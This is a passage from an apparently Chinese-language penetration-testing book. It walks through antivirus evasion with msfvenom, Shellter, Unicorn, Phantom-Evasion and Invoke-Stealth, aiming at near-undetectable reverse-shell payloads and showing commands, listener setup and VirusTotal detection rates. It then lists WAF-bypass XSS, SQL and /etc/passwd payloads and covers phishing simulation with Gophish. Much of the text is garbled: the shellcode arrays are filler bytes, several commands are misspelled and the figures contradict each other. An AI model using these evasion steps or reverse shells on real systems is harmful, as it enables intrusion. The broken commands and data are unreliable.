	0xb8, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53, 0x51, 0x52, 0xff, 0xd5, 0x55, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x53, 0x89, 0xe4, 0x50, 0x53,
};
```

图 9.37: 粘贴代码


```c
size_t size = 1392;
int main(int argc, char** argv) {
    char* code;
    printf("I am an Unmed Alloc!\n");
    code = (char*)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
}
```

图 9.40：引入随机文本

6. 进入 `Visual Studio`，从生成下拉菜单中选择 `release`，并启动最终负载的生成过程，如图 9.41 所示：


图 9.41：`Release` 版本负载

7. 成功生成后，负载将存储在您系统上的指定位置，如图 9.42 所示：

## 生成的负载

```c
#include <windows.h>
unsigned char payload[] = {
    \xeb\x1d\x5f\x96\x41\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x50\x00
};
```

8. 将生成的负载上传到 `VirusTotal` 以检查其检率，如图 9.43 所示，检率应显示降低为 `1/70`。


图 9.43：将生成的负载上传到 `VirusTotal`

## 技术

1. 为了降低 `VirusTotal` 的检出，让我们使用 `msfven` 将 `reverse_tcp` 负载作为编码后的 `shellcode` 执行。

```
msfven -p windows/reverse_tcp LHOST=192.168.29.15 PORT=4444 -x86 -i 8 -f c
```

同时修改 IP 和端口监听器。你也可以调整迭代次数 `-i`；如图 9.4 所示，在大多数情况下使用 8 次迭代应该是安全的。

```
C:\Users\admin\Desktop> msfven -p windows/reverse_tcp LHOST=192.168.29.15 PORT=4444 -x86 -i 8 -f c
[-] No selected, choosing windows/reverse_tcp
Found 1 compatible encoders
Attempt to encode with 8 iterations of x86
encoded with size 321
encoded with size 356
encoded with size 421
encoded with size 468
encoded with size 532
encoded with size 578
Final size: 578 bytes
unsigned char buf[] = {
  \xb7\x16\x31\x32\x4a\x0d\x01\x5a\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
  \x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67\x67,
};
```

3. 最后，将新生成的 `payload` 上传到 `VirusTotal` 以评估其检测率，该检测率应显示降低至 `38/71`，如图 9.46 所示：


`Metasploit` 拥有海量的利用程序、有效负载和规避技术，能够通过规避杀毒软件（AV）检测来成功入侵系统。利用先进技术可以降低检测率，增强安全评估的有效性。

图 9.46：将新生成的 `payload` 上传到 `VirusTotal`

## Shellter

`Shellter` 是一种先进的动态 `shellcode` 注入工具，广泛用于渗透测试和道德黑客的红队行动及安全评估。其主要目标是规避杀毒软件和入侵检测系统（`IDS`）。`Shellter` 通过对负载使用动态加密或编码技术来实现这一点。

通过进程空洞（`process hollowing`）技术，`Shellter` 将其恶意 `shellcode` 注入到合法进程的内存空间中。此外，研究人员可以利用此工具评估安全控制措施的有效性，并识别组织防御机制中的潜在漏洞。

让我们通过以下步骤深入研究 `Shellter` 的各种应用。你可以灵活选择任何执行文件进行负载注入。在本次演示中，我们将展示 `calc.exe` 的用法。首先，我们将关注单层 `Shellter`，逐渐增加自定义程度可以有效缓解 `AV` 检测。请按照下面的步骤操作：

- 1. 在 `Kali Linux` 上通过终端运行命令 `shellter` 来安装并启动 `Shellter`。选择自动模式，如图 9.47 所示：


- 2. 从网站 `https://www.filehorse.com/download-windows-7-calculator/download/` 下载计算器执行文件。

- 3. 指定作为负载载体的目标执行文件。该文件应适用于目标环境。在这种情况下，我们将使用 `calc.exe` 执行文件作为载体，如图 9.48 所示：


图 9.48：指定目标执行文件

## 5. 选择隐身模式（`stealth mode`）选项，如图 9.49 所示：

```
DiASM.dll was created successfully!

Instructions Traced: 1551
Tracing Time Approx: 1.05 mins.

Starting Stage Filtering...

***********************
* First Stage Filtering
* Filtering Time Approx: 0.0024 mins.
***********************

Disable Stealth Mode? (y/n): y

* Payloads: *
***********************
```

图 9.49：选择隐身模式选项

5. 在另一个终端中，执行命令 `msfvenom -p windows/meterpreter/reverse_tcp LHOST=191.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f raw > code.raw` 来创建一个 `raw` 格式自定义的加密负载，如图 9.50 所示：

```
$ ummendel@kali:~/desktop
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=191.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f raw > code.raw
- No platform selected, choosing Windows from payload
- No module selected, choosing Windows from the payload
- No arch selected, selecting x86 from the payload
Attempting to encode payload with 8 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with 528 bytes (iteration-1)
x86/shikata_ga_nai succeeded with 524 bytes (iteration-2)
x86/shikata_ga_nai succeeded with 522 bytes (iteration-3)
x86/shikata_ga_nai succeeded with 520 bytes (iteration-4)
x86/shikata_ga_nai succeeded with 518 bytes (iteration-5)
x86/shikata_ga_nai succeeded with 516 bytes (iteration-6)
x86/shikata_ga_nai succeeded with 514 bytes (iteration-7)
Payload size: 514 bytes
```

图 9.50：生成 `raw payload`

6. 回到 `payload` 终端并导航到 `raw payload` 所在。`Shellter` 会分析载体执行文件并识别注入点。选择使用自定义负载的选项并提供负载文件的位置。负载文件可以是自定义 `shellcode` 或预编译的二进制文件。在这种情况下，我们使用自定义负载，选择选项，如图 9.51 所示：

```
[stage] Metpreter/Reverse_http
[stage] Metpreter/Reverse_https
[stage] Metpreter/Bind_TLP
[stage] Shell_Bind_TLP
[stage] Shell_Bind_TCP
```

```
Has a listed payload or custom? (L/n): C
Has a listed payload or custom? (L/n): Y
```

图 9.51：选择负载

8. 将修改后的 `payload` 上传到 `VirusTotal` 以评估其检测率，该检测率应显示降低至 `38/71`，如图 9.46 所示：


请注意，你需要启用监听器来捕获攻击。


已将`powershell`输出导出到`powershell_attack.txt`。

已将`Metasploit`RC文件导出为`unicorn.rc` - 使用`msconsole -r unicorn.rc`执行并创建监听器。

图 9.57：生成的`payload`和`RC`文件

要启动监听器，请执行命令`msconsole -r unicorn.rc`，如图所示。`rc`文件作为资源文件，包含了按层级顺序的所有必要命令。执行时，`Metasploit`将顺序处理并执行`rc`文件中的每条命令。此外，为了建立反向`shell`，将`TXT`文件中的`PowerShell`代码传输到受害者机器。从`TXT`文件复制完整命令，粘贴到`PowerShell`中并按回车。这将建立反向连接。图 9.58：

```
user@kali:~/unicorn
$ msconsole -r unicorn.rc
```


```
* metasploit (v6.3.2)
 -- 2213 exploits 1213 auxiliary 413 post
 -- 1183 payloads 64 encoders II hops
 -- 8 modules
Metasploit tip: 命令开头加空格以避免保存到历史记录。
Metasploit Documentation: https://docs.metasploit.com/
[+] Showing options for rex handler:
[*] resource(unicorn.rc) set payload multi/handler
[*] 这将通用 payload 配置为 reverse_tcp
payload in windows/meterpreter/reverse_tcp
resource(unicorn.rc) set LHOST 10.0.2.10
LHOST = 192.168.1.5
resource(unicorn.rc) set LPORT 4444
LPORT = 4444
resource(unicorn.rc) set AutoVerifySession false
AutoVerifySession = false
resource(unicorn.rc) set AutoSessionId 1 if you mean AutoVerifySession?
AutoSessionId = 1
resource(unicorn.rc) set AutoSystemInfo false
AutoSystemInfo = false
resource(unicorn.rc) set AutoLogOutput false
AutoLogOutput = false
```

图 9.58：启动监听器

6. 现在，让我们使用此`TXT`payload在`VirusTotal`上检查检出率。在这里我们可以观察到检出率较低（58个中只有14个），如图 9.59 所示：

## `Phantom-Evasion`

`Phantom-Evasion`是一个基于`Python`的工具，旨在规避杀毒软件检测。它能够生成极难检测的执行文件，即使使用广泛使用的`x86`msvenpayload`payload`。

让我们探索`Phantom-Evasion`的逐步使用方法：

- 1. 首先使用命令`git clone https://github.com/oddcod3/Phantom-Evasion.git`下载工具，如图 9.60 所示。

```
(ummneedel@kali):~/Desktop
$ git clone https://github.com/oddcod3/Phantom-Evasion.git
Cloning into 'Phantom-Evasion'...
remote: Enumerating objects: 594, done.
remote: Total 594 (delta 0), reused 0 (delta 0), pack-used 594
Receiving objects: 100% (594/594), 336.84 KiB | 2.63 MiB/s, done.
Resolving deltas: 100% (348/348), done.
```

图 9.60：下载`Phantom-Evasion`

通过执行命令`cd /phantom-evasion`进入`PhantomEvasion`文件夹。通过运行命令`chmod +x /phantom-evasion.py`和`/phantom-evasion.py --setup`授予执行权限并设置所需的依赖项，如图 9.61 所示。

```
$ user@kali:~/Desktop
$ cd /Phantom-Evasion/
$ user@kali:~/Desktop/Phantom-Evasion
$ chmod +x /phantom-evasion.py
$ user@kali:~/Desktop/Phantom-Evasion
$ /phantom-evasion.py --setup
```


[免责声明]: `Phantom-Evasion`仅用于法律安全目的，任何其他用途均由开发者负责

[作者]: Diego Corschini (addc66)

[Github]: https://github.com/addc66

[版本]: 1.0

[使用的 `Python` 版本: 3.11.2

[正在安装]: `pip install git-multilib`

已收集 `requests` 安装:

正在读取包: 完成

正在构建依赖树 ... 完成

图 9.61：授予执行权限并通过运行命令`/phantom-evasion.py --help`访问可用功能列表。

执行命令`./phantom-evasion.py --help`获取帮助并访问命令，如图 9.62 所示。

```
$ user@kali:~/Desktop/Phantom-Evasion:
$ /phantom-evasion.py --help
```


[免责声明]: `Phantom-Evasion`仅用于法律安全目的，任何其他用途均由开发者负责

[作者]: Diego Corschini (addc66)

[Github]: https://github.com/addc66

[版本]: 3.0

[使用的 `Python` 版本: 3.11.2

usage: phantom-evasion.py [-h] [-v] [-v] [-m module] [-o msf] [-c cost] [-h host] [-p port] [-u url] [-a encrypt] [-f format] [-e format] [-i output] [-o output] [-cd de-type payload-old] [-p payload-type] [-t payload-type] [-r payload-type] [-j payload-type]

## 2. 使用`cd Invoke-Stealth`命令进入`Invoke-Stealth`文件夹。运行命令`pwsh Invoke-Stealth.ps1 --help`以探索可混淆技术和其他工具。参考图 9.67 的视觉表示：

```powershell
$powershell: PS C:\Desktop\
$ cd Invoke-Stealth\
$powershell: PS C:\Desktop\Invoke-Stealth\
$ pwsh Invoke-Stealth.ps1 --help
```


信息：此工具帮助对任何用`PowerShell`编写的脚本自动化混淆过程

使用方法：`\Invoke-Stealth.ps1 script.ps1 -technique Chameleon`

你可以使用单个技术或用逗号分隔

- `Chameleon`: 替换字符串并拼接变量
- `Compression`: 使用随机迭代压缩并加密代码
- `Pyfuscation`: 混淆函数、变量和参数
- `Rename`: 重命名变量以避免检测
- `PSObfuscation`: 将内容转换为字节并使用`Gzip`压缩
- `All`: 顺序执行上述描述的所有技术

警告：输出脚本将显著增加原始大小。`Chameleon`和`Pyfuscation`需要依赖项才能正常工作

图 9.67：进入`Invoke-Stealth`文件夹

## 3. 让我们使用`msfvenom`生成一个标准的`PowerShell`载荷。使用命令`msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -f php -o payloadmed.ps`。该命令如图 9.68 所示，生成的载荷不经过任何混淆：

```powershell
$powershell: PS C:\Desktop\
- No platform selected, choosing MSF Module: Windows from payload
- No architecture selected, selecting x86 from the payload
atAttempting to encode with 1 iterations of x86/shikata_ga_nai (Iteration=0)
x86/shikata_ga_nai chosen with final size 864
Payload size: 864 bytes
Final size of pos file: 864 bytes
Saved: payloadmed.ps
```

图 9.68：生成标准的`PowerShell`载荷

## 4. 将混淆后的`PowerShell`载荷上传到`VirusTotal`以评估其检测率。在图 9.69 中，检测率报告为 25/59：

## 5. 现在，使用`Invoke-Stealth`混淆`PowerShell`载荷。执行`/home/ummedeel/desktop/payloadadumned.ps -technique All`。该命令如图 9.70 所示，同时应用所有混淆技术以降低检测概率：

```bash
ummedeel@local:~/Desktop/Invoke-Stealth$
$ ./Invoke-Stealth.ps1 -file /home/ummedeel/desktop/payloadadumned.ps -technique All
```

## `Invoke-Stealth`

- [+] 正在加载 `Chameleon` 和某些混淆... [OK]

- [!] 避免将 `BetterXencrypt` 与其他技术混合... [OK]

- [+] 正在加载 `Pyfuscation` 并进行更多混淆... [OK]

- [- 使用 `base64` 编码并反转以避免检测... [OK]

- [+] 正在加载 `PSObfuscation` 和随机化... [OK]

- [+] 完成！

> 图 9.70：使用 `Invoke-Stealth` 混淆 `PowerShell` 载荷

`A11`标志表示这种方法。为了防止载荷的签名具有相同的哈希值，我们修改了之前生成的载荷名称。

## 6. 再次将混淆后的载荷上传到`VirtualTotal`以评估检测率。惊讶的是，该`PowerShell`载荷现在是`FUD`（完全不可检测），如图 9.71 所示，检测率为 2/59：


图 9.71：将混淆后的载荷上传到`VirusTotal`

## `INFO`：`Invoke-Stealth`使用混淆和加密生成隐蔽`PowerShell`脚本，以规避反病毒检测并执行秘密操作。

## 前端 `WAF` 绕过策略

`WAF`是一种专门设计用于保护`Web`应用免受各种攻击的安全解决方案。通过实施一套规则，`WAF`会主动识别并阻止恶意请求或可疑活动。

`WAF`绕过技术涉及渗透人员用于有效规避或绕过`WAF`建立的保护措施的方法。这些测试人员试图绕过`WAF`，以识别防火墙保护的`Web`应用程序中的潜在漏洞和缺陷，这些漏洞可能被恶意人员利用。通过理解`WAF`绕过的机制，渗透人员可以评估`WAF`的效性，并帮助组织加强其`Web`应用程序的安全防御。

绕过`WAF`涉及多种规避或绕过其保护的技术。以下是攻击者和渗透人员可能绕过`WAF`的常用技术，如表 9.3 所示：

| 技术 | 描述 |
| --- | --- |
| 载荷混淆 | 修改或编码攻击载荷以避免基于特征的检测。技术包括 URL 编码、字符编码等。 |
| 参数分段 | 将攻击分散在多个请求参数或部分，以绕过基于这些特定 WAF 规则。 |
| 协议级绕过 | 利用服务器解释方式的不一致性。 |
| 操纵 HTTP 方法 | 使用 HTTP 方法（例如 OPTIONS）规避。 |
| IP 和 User-Agent 伪装 | 修改源 IP 或 User-Agent。 |
| 请求注入 | 利用 HTTP 请求中的歧义。 |
| WAF 配置错误 | 利用配置错误。 |
| 慢 HTTP 攻击 | 发送数据导致资源耗尽。 |
| 加密流量 | 利用加密方法（例如 SSL/TLS）隐藏载荷。 |

让我们探索这些技术及其对应的载荷示例：

- **大小写操作**：某些 `WAF` 根据大小写进行过滤。通过结合大小写字母，我们可以绕过。

**示例：**

- 标准载荷：`<script>alert()</script>`
- 绕过的载荷：`<Script>alert()</Script>`
- 同样，`SQL`查询`SELECT * FROM users`可以是`ummed`。

- **`HTML` 编码**：`Web`会将特殊字符编码为`HTML`表示。通过使用`HTML`编码，我们可以绕过某些。

**示例：**

- 标准载荷：`<script>alert(1)</script>`
- 编码载荷：`&lt;script&gt;alert(1)&lt;/script&gt;`
- 同样，`SQL`查询`SELECT * FROM users`可以编码为`admin&#105;n`。

- **`URL` 百分编码**：使用 `%` 符号的 `URL` 编码载荷可以绕过 `WAF`。

**示例：**

- 被拦截的载荷：``
- 绕过的载荷：`%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E`
- 同样，`SQL`查询`SELECT * FROM users WHERE id = 1 OR=1`可以绕过为`SELECT%20*%20FROM%20users%20WHERE%21id%20%3D%201`。

- **`Unicode` 转换**：利用 `Unicode` 编码的 `ASCII` 字符可以绕过过滤器。通过使用 `Unicode` 表示编码载荷，我们可以规避。

**示例：**

- 标准载荷：`<script>alert(1)</script>`
- 混淆载荷：`<script>alert!)</script>`
- 同样，`SQL`查询`SELECT * FROM users WHERE username = 'admin'`可以绕过为`adminin`。

- **混合编码**：通过使用不同编码的组合，我们可以绕过针对特定编码类型的过滤器。将 `URL` 编码与 `HTML` 编码结合产生有效的绕过。

**示例：**

- 标准载荷：`<script>alert(1)</script>`
- 混淆载荷：`%3cscript%3ealert%281%29%3c%2fscript%3e`

- **注释和空格跟踪**

在载荷（`payload`）中包含注释和空格可以对其进行混淆并绕过过滤器。

**示例：**

- 标准负载：`<script>alert(1)</script>`
- 混淆负载：`<!-- <script> --> alert (1) <-- </script> -->`

- **负载碎片化与拼接**：将载荷拆分为片段或以意想不到的方式拼接可以绕过某些 `WAF` 过滤器。

**示例：**

- 标准负载：`<script>alert(1)</script>`
- 分段负载：`<<script>a<<script>>l(1)</script>>`

- **动态载荷生成**：通过使用编程语言的特性（如拼接）动态生成载荷，我们可以绕过 `WAF` 过滤器。

**示例：**

- 标准负载：`<script>alert(1)</script>`
- 混淆负载：`<script>e%76al('a'%2B'alert(1)')</script>`

- **利用未初始化变量漏洞**

在 `Bash` 和 `Perl` 等脚本语言中使用未初始变量可以规避基于正则表达式的过滤器和模式匹配。未初始变量具有空值或空字符串，允许我们绕过某些检测机制。

**示例：**

`Level` `1` 混淆：正常

- 标准负载：`/bin/cat /etc/passwd`
- 混淆负载：`/bin/cat$randomVar /etc/passwd$randomVar`

`Level` `2` 混淆：基于位置

- 标准负载：`/bin/cat /etc/passwd`


# 混淆与绕过技术

## Level 3 混淆：随机字符

- 混淆负载：`$randomVar/bin$randomVar/cat$randomVar $randomVar/etc$randomVar/passwd$randomVar`

## 标准与混淆负载

- 标准负载：`/bin/cat /passwd`

- 混淆负载：`$aaaaaa/bin$bbbbbb/cat$ccccccdddddd/etc$eeeeee/passwd$ffffff`

- 制表符和换行符：制表符在规避防火墙方面有效，特别是基于正则表达式的防火墙。当防火墙事件暴露空白字符而不是制表符时，利用制表符可以绕过其正则模式。

## 示例

- 标准负载：`<script>alert(1)</script>`

- 绕过的负载：`<script> alert(1)</script>`

- 标准 URL：`http://example.com/page?param=value1&param=value2`

- URL 编码（制表符和换行符）：`http://example.com/page?param=value1%09%0A&param=value2`

> **注意**：WAF 规避涉及绕过 Web 应用防火墙的保护，使用载荷分析、基于协议的攻击和自定义利用等技术来识别受保护应用程序中的漏洞。

# 演变的社会工程

## 社会工程概述

社会工程是攻击者使用的一种狡猾策略，用于操纵个人披露敏感信息或绕过安全防护。它利用人类心理和信任来获取对系统和数据的未授权访问。与传统的渗透测试不同，社会工程工程师侧重于利用人性漏洞，而不仅仅是技术缺陷。这对组织的网络安全构成了重大威胁，因为人往往是安全链中最薄弱的环节。虽然技术漏洞可以通过安全控制来缓解，但并没有万无一失的方法完全防止人为错误和失误。

## 社会工程技术

以下是社会工程攻击中使用的几种技术，可能会损害组织的网络安全：

| 社会工程技术 | 描述 |
| :--- | :--- |
| 网络钓鱼 | 攻击者采用欺骗性策略，冒充合法来源，诱导接收者泄露机密或点击恶意链接。 |
| 设定情节（Pretexting） | 攻击者伪造虚假场景或理由，操纵个人披露敏感信息或执行异常操作。 |
| 诱饵（Baiting） | 攻击者策略性地在公共区域放置物理设备或受感染媒介（如 USB 盘），吸引毫无防备的人在不知情的情况下执行恶意代码。 |
| 尾随（Tailgating） | 攻击者通过跟随员工或冒充授权人员来利用员工的信任，获得对受限区域或系统的未授权访问。 |
| 冒充（Impersonation） | 攻击者伪装成可信的实体（如同事、IT 支持或供应商），欺骗个人共享敏感信息或授予未授权访问。 |
| 反向社会工程 | 攻击者在操纵个人执行有害操作之前，先与个人建立信任。 |

表 4.4：社会工程策略

## 防御措施

为了增强对社会工程攻击的防御，组织应采取以下措施：

- **持续教育**：定期教育员工了解各种社会工程技术，持续提高对威胁的意识。
- **实施零信任策略**：拥抱零信任方法并实施严格的访问控制，结合最小权限原则。
- **警惕补丁**：实施有效的补丁管理周期，及时修复已知漏洞，从而阻止攻击者利用。
- **邮件过滤和垃圾检测**：部署可靠的邮件过滤和垃圾检测机制，识别并拦截钓鱼尝试，减少员工落网的概率。
- **定期安全评估**：进行包括模拟社会工程攻击的定期安全评估，识别趋势和漏洞。这允许组织针对最佳实践进行培训。
- **多层次安全方法**：采用结合先进技术、持续教育和主动措施的综合安全策略。多层次的方法对于有效防御社会工程攻击至关重要。

> **注意**：即使有完善的安全控制，社会工程攻击仍然是破坏组织的有力手段。人性的脆弱使其难以完全防止，因为毫无防备的受害者会无意中为攻击者开启通道，这强调了处理人性漏洞的重要性。

## 钓鱼模拟

钓鱼是安全专业人员和恶意攻击者使用的评估技术，用于欺骗个人并提取包括登录凭据、信用卡详情、业务计划和个人数据在内的敏感信息。它还涉及安装恶意工具或软件，从而实现后门、勒索软件攻击或数据窃取等恶意活动。这种欺骗方法通常依赖于虚假的电子邮件、即时消息或网站；诱导毫无防备的用户意外共享机密信息。获取的信息随后被安全专业人员直接或间接地用于规划和执行高级策略。

### 钓鱼模拟的价值

钓鱼在安全评估中发挥重要作用，原因如下：

- **评估漏洞**：通过模拟钓鱼攻击，组织可以评估员工对这类策略的敏感性。这有助于识别现有安全意识和培训计划中的潜在缺陷。
- **提高意识**：钓鱼模拟作为教育工具，增强员工对钓鱼攻击相关的风险和后果的理解。它允许组织进行针对性培训，强化组织的整体安全态势。
- **评估事件响应**：钓鱼评估使组织能够评估事件响应流程和程序的有效性。通过分析员工如何处理模拟钓鱼攻击，组织可以确定在事件检测、报告、响应协议以及新安全政策和程序方面需要改进的地方。

## 钓鱼方法和流程

在进行钓鱼安全评估时，组织通常遵循以下步骤，如图 9.72 所示：


图 9.72：钓鱼攻击方法和流程

1.  **规划**：从定义评估目标、范围、目标读者和评估参数开始。这可能涉及创建模板、着陆页和信息性内容。
2.  **构建场景**：开发真实的钓鱼邮件或背景，使其与组织的所属行业、主流通信模式、当前全球事件或热点话题保持一致。
3.  **投送与跟踪**：将模拟的钓鱼邮件发送给指定的员工或用户组。使用跟踪机制监控收件者的操作，例如邮件打开、链接点击以及凭据/详情提交。
4.  **分析与报告**：评估钓鱼测试的结果，包括打开率、点击率、响应率和事件报告。评估安全控制的有效性，找出需要改进的地方，并生成包含可操作建议的综合报告。
5.  **培训与意识**：根据评估结果，提供针对性的培训和意识计划，教育员工了解与钓鱼攻击相关的风险、技术和预防措施。强化对安全最佳实践的遵守，以增强应对真实钓鱼尝试的韧性。

### 开源钓鱼模拟器

以下是行业内广泛认可的开源钓鱼模拟器：

- `Gophish`
- `LUCY`
- `Simple Phishing Toolkit` (`sptoolkit`)
- `Phishing Frenzy`
- `King Phisher`
- `SpeedPhish Framework` (`SPF`)
- `Social-Engineer Toolkit` (`SET`)

为了从实践中理解这一点，我们将介绍 `Gophish` 的设置。

## Gophish 设置指南

`Gophish` 是一个开源钓鱼框架，通常用于开展模拟钓鱼活动并评估组织的安全意识。它具有用户友好的 Web 界面，允许安全专业人员轻松创建自定义的钓鱼场景、设计邮件模板、跟踪收件者操作并生成详细报告。

要在 `Linux` 上设置 `Gophish`，请遵循以下步骤说明：

1.  **下载 Gophish**：访问 `Gophish` GitHub 仓库 (`https://github.com/gophish/gophish/releases`) 并下载最新的 ZIP 文件。参考图 9.73 的视觉指导：

    

    图 9.73：下载 `Gophish`

2.  **解压 Gophish**：打开终端并导航到下载文件夹。使用命令 `unzip gophish-downloaded-zip.zip` 解压 ZIP 文件的内容。参考图 9.74 的视觉指导：

    ```bash
    (ummedmeel@kali) ~/Downloads
    $ unzip gophish-v8.22-linux-64bit.zip
    Archive: gophish-v8.22-linux-64bit.zip
    inflating: static/js/dist/
    creating: static/js/dist/app/sounding_profiles.min.js
    inflating: static/js/dist/app/campaign_results.min.js
